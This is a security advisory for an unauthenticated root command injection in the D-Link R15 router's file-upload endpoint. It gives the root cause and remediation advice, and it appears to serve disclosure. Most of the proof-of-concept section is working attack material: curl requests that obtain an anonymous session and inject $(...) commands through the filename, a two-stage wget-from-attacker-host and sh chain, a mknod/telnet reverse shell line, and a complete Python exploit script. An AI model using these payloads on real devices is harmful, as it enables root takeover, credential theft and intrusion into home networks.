



# D-Link R15 (Eagle Pro AI AX1500) Wi-Fi 6 Smart Router

- Vendor: D-Link
- Product: R15 (Eagle Pro AI AX1500)
- Model: R15 (Hardware Revision A1)
- Firmware: v1.22 (released 2025-10-17, latest version on the official site) and earlier
- Vulnerability Type: Unauthenticated OS Command Injection (CWE-78)

# Description

The flupl file-upload endpoint (`/flupl/nodered`) of the D-Link R15 (Eagle Pro AI AX1500, firmware v1.22) contains a command injection vulnerability. The user-controlled `filename` field of the multipart form is filtered by a blacklist (only `;` `&` `|` `>` `<` and spaces are blocked), then concatenated into a temporary file path `/tmp/<filename>`, and finally inserted — **without quotes** — as `%s` into the shell command `tar -xvf %s -C %s && rm -rf %s &`, which is executed via `exec_cmd → pox_system → system()`. Because the blacklist **does not block `$()` command substitution**, and the basename extraction logic can be bypassed with an `a/` prefix decoy (the payload survives intact after the last `/`), an attacker can inject `$(command)` into the filename; it is evaluated during shell parsing, achieving arbitrary command execution with **root (uid=0)** privileges.

Authentication of this endpoint only checks whether a session exists, not whether the session has passed password authentication. The HNAP Login challenge request (`Action=request`) creates a session and issues a Cookie **without any password**. Therefore this vulnerability is **unauthenticated**: any attacker on the LAN can exploit it.

# Impact

An unauthenticated attacker can execute arbitrary commands as **root**, gaining full control of the device — reading sensitive configurations and credentials, planting persistent backdoors, establishing a reverse shell, hijacking network traffic, and pivoting into the internal network for lateral movement. The device is a commercially available AX1500 Wi-Fi 6 router; the vulnerability exists in the latest firmware v1.22 released on 2025-10-17 and remains unpatched by the vendor.

# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in the flupl upload module of the web service binary `/bin/httpd` (running as **root**) — source file `ws-flupl/ws_flupl.c`, data-handling function `put_data` (offset 0x419634).

**Taint source** — the `filename=` field of the multipart form. put_data parses the upload data line by line and extracts the filename from the `Content-Disposition` line, applying two operations:

- Blacklist filtering: `strpbrk(filename, ";&| ><")`, truncating at the first match — **`$` `(` `)` `` ` `` and other command-substitution characters are not included**;
- `strrchr(filename, '/')` takes the last segment (basename) — **bypassable with an `a/` prefix decoy**, keeping the payload intact after the last `/`.

The processed filename is then concatenated via `snprintf(path, 1024, "%s/%s", "/tmp", filename)`.

**Taint sink** — the finalization handler after the upload completes. put_data dispatches on the file extension; for `.tar` it executes:

```c
exec_cmd(v143, "ws-flupl/ws_flupl.c", "put_data", 1073,
         "tar -xvf %s -C %s && rm -rf %s &",
         path, "/usr/lib/node_modules/", path);
```

`exec_cmd` (its real implementation lives in libutils.so) internally formats the command with `vsnprintf` and executes it via `pox_system → system()`. Both `%s` placeholders are attacker-controlled paths and are **not quoted**; the shell evaluates `$(...)` inside the filename before running tar.

**Exploitation constraints (verified):**

| Constraint | Verified result |
|---|---|
| Blacklisted chars | `;` `&` `|` `>` `<` and space are blocked; use `${IFS}` instead of spaces |
| Injection syntax | `$(cmd)` verified |
| Extension requirement | filename must end with `.tar` (to reach the tar branch) |
| basename | payload must be placed after the last `/` (e.g. `a/$(...).tar`) |
| File content | the uploaded file must be non-empty (0-byte content fails the chunked-processing flow and returns 500) |
| Execution context | `uid=0(root) gid=0(root)` |
| Output channel | no direct echo; write command output into the web root (`/tmp/www3/`) and retrieve it via HTTP GET |

## 2. Authentication Prerequisite (Sessions Are Free — the Key to Unauthenticated Access)

The flupl entry point only checks that a session exists for the supplied Cookie. The HNAP Login challenge request (`Action=request`) is unauthenticated by protocol design, and its implementation **directly creates a session and issues a Cookie**:

```
POST /DHMAPI/   API-Action: Login
Body: <Login><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login>
→ Returns <Cookie>xxxxxxxx</Cookie>
```

An attacker can obtain a session that passes the flupl check without any credentials, making this vulnerability reachable without authentication.

## 3. Proof of Concept (PoC)

The test environment is a full-system QEMU emulation of the complete R15 v1.22 firmware, with the web service listening on 192.168.0.1:443.

### Step 1 — Obtain an anonymous session Cookie

```bash
curl -sk -X POST "https://192.168.0.1/DHMAPI/" \
  -H 'API-Action: Login' -H 'Content-Type: text/xml' \
  -d '<?xml version="1.0"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'
# Returns <Cookie>xxxxxxxx</Cookie>
```

### Step 2 — Upload a file with an injected filename

```bash
head -c 1000 /dev/zero > /tmp/dummy.bin    # the uploaded file must contain any content (empty file returns 500)

curl -sk -X POST "https://192.168.0.1/flupl/nodered" \
  -H "Cookie: uid=<Cookie from step 1>" \
  -F 'FWFile=@/tmp/dummy.bin;filename=a/$(touch${IFS}ceshi666).tar'
```

Expected response: `202 Accepted`.



### Step 3 — Verify command execution

The injected command runs with the web root `/tmp/www3` as its working directory, so the file created by `touch` is directly accessible over HTTP:

```bash
curl -sk -o /dev/null -w "%{http_code}\n" -k https://192.168.0.1/ceshi666
```

A **200** response (file exists) proves that `$(touch${IFS}ceshi666)` was executed by the shell.



### Step 4 — Retrieve command output (confirm root)

Since the filename blacklist blocks `>`, a two-stage approach is used: first inject `wget` to download a script from the attacker's machine, then inject `sh` to execute it. The script content is not subject to the filename blacklist:

```bash
# Place the script in the attacker's HTTP root: id > /tmp/www3/id.txt
echo "id > /tmp/www3/id.txt" | sudo tee /var/www/html/index.html

# Injection 1: download the script as s
curl -sk -X POST "https://192.168.0.1/flupl/nodered" -H "Cookie: uid=<Cookie>" \
  -F 'FWFile=@/tmp/dummy.bin;filename=a/$(wget${IFS}-q${IFS}-O${IFS}s${IFS}192.168.0.2).tar'

# Injection 2: execute the script
curl -sk -X POST "https://192.168.0.1/flupl/nodered" -H "Cookie: uid=<Cookie>" \
  -F 'FWFile=@/tmp/dummy.bin;filename=a/$(sh${IFS}s).tar'
```

```bash
curl -sk -k https://192.168.0.1/id.txt
```

Observed response body:

```
uid=0(root) gid=0(root)
```

### Full Exploitation — Reverse Shell

Using the same two-stage injection, replace the script content with a reverse shell (busybox ash does not support `/dev/tcp`, so an mknod pipe + telnet is used):

```
rm -f /tmp/f; mknod /tmp/f p; (sh -i < /tmp/f 2>&1 | telnet <attacker-ip> 4444 > /tmp/f) &
```

The attacker's listener receives an interactive root shell (verified).



**EXP:**

```python
#!/usr/bin/env python3
# D-Link R15 (FW v1.22) /flupl/nodered unauthenticated command injection - PoC/EXP
# Usage: python r15_exp.py            interactive (commands run as root on the device)
#        python r15_exp.py "id"       run a single command
import sys, re, ssl
import urllib.request, urllib.error

BASE = "https://192.168.0.1"          # emulated/real device address
CTX = ssl._create_unverified_context()

def soap_post(action, inner):
    body = ('<?xml version="1.0" encoding="utf-8"?>'
            '<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">'
            '<soap:Body>%s</soap:Body></soap:Envelope>' % inner)
    req = urllib.request.Request(BASE + "/DHMAPI/", data=body.encode(),
        headers={"Content-Type": "text/xml; charset=utf-8", "API-Action": action})
    try:
        with urllib.request.urlopen(req, timeout=10, context=CTX) as r:
            return r.status, r.read().decode("utf-8", "replace")
    except urllib.error.HTTPError as e:
        return e.code, e.read().decode("utf-8", "replace")

def get_cookie():
    """Unauthenticated Login challenge -> anonymous session Cookie"""
    _, resp = soap_post("Login",
        '<Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action>'
        '<Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login>')
    m = re.search(r"<Cookie>(.*?)</Cookie>", resp)
    if not m:
        print("[!] failed to obtain session cookie"); sys.exit(1)
    return m.group(1)

def upload(cookie, filename, data=b"A" * 800):
    boundary = "----R15BOUND"
    body = ("--%s\r\n" % boundary +
            'Content-Disposition: form-data; name="FWFile"; filename="%s"\r\n' % filename +
            "Content-Type: application/octet-stream\r\n\r\n").encode() + data + \
           ("\r\n--%s--\r\n" % boundary).encode()
    req = urllib.request.Request(BASE + "/flupl/nodered", data=body,
        headers={"Content-Type": "multipart/form-data; boundary=%s" % boundary,
                 "Cookie": "uid=" + cookie})
    try:
        with urllib.request.urlopen(req, timeout=20, context=CTX) as r:
            return r.status
    except urllib.error.HTTPError as e:
        return e.code

def sanitize(cmd):
    """Wrap into a blacklist-safe filename: a/$(cmd).tar, spaces -> ${IFS}; ; & | < > are forbidden"""
    if any(c in cmd for c in ";&|<>"):
        raise ValueError("command must not contain ; & | < >; use the two-stage wget+sh approach")
    return "a/$(%s).tar" % cmd.replace(" ", "${IFS}")

def run(cmd):
    st = upload(get_cookie(), sanitize(cmd))
    print("[*] %s -> HTTP %s" % (cmd, st))

if __name__ == "__main__":
    if len(sys.argv) > 1:
        run(" ".join(sys.argv[1:]))
    else:
        print("python r15_exp.py 'touch${IFS}ceshi666'   # example (write output into the web root, then GET it)")
```

## 4. Root Cause Summary

1. `put_data` sanitizes the uploaded filename with a blacklist that **omits `$()` / backtick** command-substitution characters, and its basename extraction can be bypassed with an `a/` decoy;
2. the filename is inserted as an unquoted `%s` into the `tar` command executed via `exec_cmd → pox_system → system()`, so the shell evaluates `$()` during parsing;
3. the flupl endpoint checks only session existence rather than authentication state, and sessions are freely obtainable via the unauthenticated Login challenge — making the vulnerability reachable **without authentication**;
4. `httpd` runs as root, so injected commands execute with the highest privileges.

## 5. Remediation

- Apply strict whitelist validation for uploaded filenames (`^[A-Za-z0-9._-]+$`); do not rely on blacklist filtering;
- Replace exec_cmd/system string concatenation with parameterized execution (fork + execv with argument arrays); note that merely adding double quotes does not defend against `$()` command substitution;
- Make the /flupl/* endpoints verify the session's authentication state, not merely its existence;
- Audit the remaining 39 variable-formatted exec_cmd call sites in httpd and fix the same class of issues;
- Run the web service with reduced privileges.

